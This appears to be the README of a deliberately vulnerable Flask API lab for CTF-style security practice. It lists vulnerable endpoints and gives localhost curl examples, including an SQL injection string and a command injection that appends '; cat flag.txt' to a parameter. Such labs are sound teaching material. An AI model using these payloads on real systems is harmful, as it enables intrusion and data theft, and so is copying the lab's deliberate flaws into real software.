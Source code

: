# API-Lab
An intentionally vulnerable API lab for practicing API security testing with Postman &amp; Burp Suite.  Includes common flaws like SQLi, IDOR, Broken Auth, CORS misconfig, and File Upload vulnerabilities.  For educational use only.
# HackerHunt-Lab API

A CTF-style vulnerable API lab built with Flask for security learners to practice exploiting common vulnerabilities.
 🔑 Broken Authentication
- 🔎 Insecure Direct Object Reference (IDOR)
- 💉 SQL Injection
- ⚡ Command Injection
- 🕵️ Information Disclosure
- 🌍 CORS Misconfiguration
- 📂 File Upload Vulnerabilities

Each vulnerable endpoint is designed to teach common API exploitation techniques in a **safe, controlled environment**.


## 🚀 Setup Instructions

### 1. Clone repository

```bash
git clone https://github.com/yourusername/Packard-Tricks-Associate.git
cd Packard-Tricks-Associate

2. Install dependencies

pip install -r requirements.txt

3. Run the app

python app.py

The API will start on http://0.0.0.0:5000.



🐳 Docker Usage

Build the Docker image:


docker build -t hackerhunt-lab .

Run the container:


docker run -p 5000:5000 hackerhunt-lab


📋 Vulnerable Endpoints

| Endpoint                        | Description                           | Method   | Notes                                |
|--------------------------------|-------------------------------------|----------|-------------------------------------|
| /vuln/auth/login              | Broken Authentication                | POST     | Weak password check, bypass to get flag |
| /vuln/idor/item/<id>          | IDOR                               | GET      | Access other users' items, flag in Bob's item #3 |
| /vuln/sqli/search?q=          | SQL Injection                      | GET      | Inject ' OR '1'='1 to reveal flag |
| /vuln/cmdinject/ping?ip=      | Command Injection                  | GET      | Inject ; cat flag.txt to get flag |
| /vuln/info/debug              | Information Disclosure             | GET      | Returns secret config including flag |
| /vuln/cors/data               | CORS Misconfiguration             | GET      | Allows any origin, returns flag     |
| /vuln/upload                  | File Upload                       | POST     | Upload evil.txt to get flag       |



🔍 Example curl Requests

Broken Authentication (Bypass)

curl -X POST http://localhost:5000/vuln/auth/login -H "Content-Type: application/json" -d '{"username":"alice","password":"letmein"}'

IDOR Access Bob's secret item

curl http://localhost:5000/vuln/idor/item/3

SQL Injection

curl "http://localhost:5000/vuln/sqli/search?q=' OR '1'='1"

Command Injection

curl "http://localhost:5000/vuln/cmdinject/ping?ip=127.0.0.1; cat flag.txt"

Information Disclosure

curl http://localhost:5000/vuln/info/debug

CORS Misconfiguration

curl http://localhost:5000/vuln/cors/data

File Upload

curl -F "file=@evil.txt" http://localhost:5000/vuln/upload


🛠️ Using Postman & Burp Suite


Postman: Import endpoints as requests, set method and parameters accordingly.

Burp Suite: Proxy your requests through Burp to intercept, modify, and replay.

Test injection points (e.g., SQLi, Command Injection) by manipulating parameters.

Observe flags returned when vulnerabilities are successfully exploited.



⚠️ Disclaimer

This project is for educational purposes only. Use it only in authorized environments and labs.

Do NOT deploy this vulnerable app in production or public-facing servers.



Happy hacking! 🔐
